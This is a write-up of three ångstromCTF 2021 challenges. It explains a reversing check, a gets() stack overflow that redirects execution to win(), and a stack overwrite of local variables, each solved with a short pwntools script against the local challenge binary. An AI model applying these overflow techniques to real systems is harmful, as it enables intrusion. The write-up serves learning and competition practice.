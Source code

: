 ### ångstromCTF 2021 - FREE FLAGS!!1!! (50 points)

The file is a 64-bit x84-64 ELF executable. Use Ghidra to analyze the content. I renamed some variable names to make the program more readable. 

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p3-1.PNG?raw=true)

In order to get the flag, we need to make

```
input1 = 0x7a69
input2 + input3 = 0x476, input2 * input3 = 0x49f59 
input4 = "banana"
```

Now we can write the exploit as follows. Note that the first scanf() takes "%d" as the parameter, so we need to input 0x7a69 in the decimal format, i.e., 31337. To get the possible answers of the input2 and input3, we can use some online calculators such as http://gadget.chienwen.net/x/math/solveeq to solve the quadratic equation. We then input 419 (input2) and 723 (input3) to bypass the check. Lastly, send the string "banana" to make the input4 equals to the target string. 

```python
import pwn 
proc = pwn.process("./free_flags")
proc.read()
proc.sendline("31337")      
proc.read()
proc.sendline("419 723")
proc.read()
proc.sendline("banana")
proc.read()
```

Here is the flag.

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p3.PNG?raw=true)



### ångstromCTF 2021 - tranquil (70 points)

The file is a 64-bit x84-64 ELF executable. The function `win()` open the file `flag.txt` and read the content for us. So our goal is to force the program execute the `win()` function. The main function calls the function ` vuln()`. However, there is a `gets()` function, which may cause stack overflow, in the `vuln()`. Let's use radare2 to figure out how many bytes should we cover to exploit the stack and control the flow. As you can see, we need to cover 0x40 + 8 (rbp size), and overwrite the return address as 0x401196. So the exploit is as follows. 

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p1-1.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p1-2.PNG?raw=true)

```python
import pwn 
proc = pwn.process("./tranquil")
proc.read()
payload = b"a" * (0x40 + 8) + pwn.p64(0x401196, endian='little')
proc.sendline(payload)
proc.read()
```

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p1.PNG?raw=true)



### ångstromCTF 2021 - Sanity Checks (80 points)

The file is a 64-bit x84-64 ELF executable. Use Ghidra to analyze the content. To bypass the check, we can create a craft stack with the `gets()` function to make the variables equal to their target values. 

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p2-1.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p2-2.PNG?raw=true)

So let's use radare2 to figure out the addresses of the variables. As you can see, [rbp-0x60] should be overwritten as "password123", [rbp-0x4] should be overwritten as 0x32, [rbp-0x8] should be overwritten as 0x37, [rbp-0xc] should be overwritten as 0xf5, [rbp-0x10] should be overwritten as 0x3d. 

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p2-3.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p2-4.PNG?raw=true)

```python
import pwn 
proc = pwn.process("./checks")
proc.read()
pw = "password123"
payload = pw + "\x00" * (0x4c - len(pw)) + ("\x11\x00\x00\x00\x3d\x00\x00\x00\xf5\x00\x00\x00\x37\x00\x00\x00\x32\x00\x00\x00")
proc.sendline(payload)
proc.read()
```

Here is the flag. 

![](https://github.com/chuang76/writ3up/blob/main/angstrom/actf-p2.PNG?raw=true)